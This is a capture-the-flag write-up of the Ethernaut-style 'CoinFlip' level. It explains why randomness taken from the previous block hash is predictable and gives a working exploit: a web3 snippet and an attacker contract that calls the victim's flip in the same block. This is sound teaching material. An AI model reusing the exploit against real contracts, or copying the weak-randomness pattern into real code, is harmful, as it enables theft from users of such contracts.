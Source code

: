 # CoinFlip

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Let's try to understand what's happening here. The `flip` method gets the hash of the previous block, does integer division on it by a fixed factor and then uses the result as the side of the coin. The factor in hexadecimal is `0x8000000000000000000000000000000000000000000000000000000000000000`. The probability that the hash of some random block is higher (or lower) than this number is 50%, so it makes sense to call it a "coin flip", where the coin is given by the previous block hash.

But if that's the case we can easily predict the next flip by doing the same check on our side.

```javascript
let blockHash = function() {
  return new Promise(
    (resolve, reject) => web3.eth.getBlock('latest', (error, result) => {
      if(!error)
          resolve(result['hash']);
      else
          reject(error);
    })
  );
}

contract.flip(parseInt((await blockHash())[2], 16) > 8)
```

The problem is to make sure that a new block doesn't get mined before we submit our guess. The whole process is highly unstable. We also can't toss two flips in the same block because of the `if (lastHash == blockValue)` check. We need another approach.

What if we have a contract which guesses the right flip? The transactions are guaranteed to be in the same block, so we can't be wrong. Let's try:

```solidity
pragma solidity ^0.4.18;

contract CoinFlip {

  function flip(bool _guess) public returns (bool);

}

contract Caller {
    CoinFlip k;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address victim) public {
        k = CoinFlip(victim);
    }

    function guessFlip() public {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
        bool side = coinFlip == 1 ? true : false;

        k.flip(side);
    }
}
```

We deploy the contract and calmly call `guessFlip` 10 times in a row. It works as expected.

